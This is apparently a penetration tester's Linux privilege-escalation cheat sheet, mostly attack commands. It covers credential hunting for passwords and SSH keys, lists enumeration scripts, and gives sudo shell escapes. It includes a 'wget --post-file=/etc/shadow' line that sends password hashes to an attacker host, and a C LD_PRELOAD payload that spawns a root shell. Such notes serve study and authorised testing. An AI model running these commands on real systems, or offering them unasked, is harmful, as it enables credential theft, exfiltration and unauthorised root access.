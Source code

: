 ```bash
grep --color=auto -rnw '/' -ie "PASSW" --color=always 2> /dev/null
locate password | more
find / -name id_rsa 2>/dev/null
find / -name authorized_keys 2>/dev/null
```

## Automated Enumeration

### Scripts

* LinPEAS
* LinEnum
* linux-exploit-suggester
* Linuxprivchecker.py
* linux-smart-enumeration (lse)
* pspy

## Escalation Path Techniques

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

[https://gtfobins.github.io/](https://gtfobins.github.io/)

### Sudo

```bash
# Quick attempt at root shell
sudo su
# If su not found, others can be tried
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
# Identify what can be run using sudo
sudo -l
# Shell Escaping - ex: vim
sudo vim -c ':!/bin/sh'  # via gtfobins
# Intended functionality - ex: apache2, wget
sudo apache2 -f /etc/shadow  # can't edit, but can view system files
sudo wget --post-file=/etc/shadow <kali-ip>:<port>  # Using netcat to collect
```

#### LD\_PRELOAD

After running `sudo -l` if `env_keep+=LD_PRELOAD` a malicious script can be created and run

{% code title="shell.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
{% endcode %}
